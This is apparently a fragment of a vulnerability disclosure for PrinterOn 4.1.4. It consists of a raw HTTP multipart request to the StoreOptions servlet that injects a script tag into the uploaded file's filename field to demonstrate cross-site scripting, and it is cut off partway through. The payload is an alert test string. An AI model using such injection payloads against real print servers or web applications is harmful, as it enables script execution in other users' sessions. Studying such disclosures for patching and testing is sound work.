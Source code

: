 <img src="documenturi_file2.png">

##### Request:

```
POST /cps/servlet/StoreOptions HTTP/1.1
Host: 172.17.20.183
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.17.20.183/cps/SelectOptions?jobId=561829788
Content-Type: multipart/form-data; boundary=---------------------------48421886014508415371764384321
Content-Length: 3516
Cookie: JSESSIONID=E5B484FB7164D912126E0705CF62604F; locale=en_US
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------48421886014508415371764384321
Content-Disposition: form-data; name="redirectUrl"

SelectOptions2
-----------------------------48421886014508415371764384321
Content-Disposition: form-data; name="jobId"

561829788
-----------------------------48421886014508415371764384321
Content-Disposition: form-data; name="documentURI_file"; filename="<script>alert("PrinterOn 4.1.4 XSS3")</script>"
Content-Type: text/plain

TEST PAGE TEST PAGE TEST PAGE

-----------------------------48421886014508415371764384321
Content-Disposition: form-data; name="documentURI_uri" 
<--SNIP-->
```
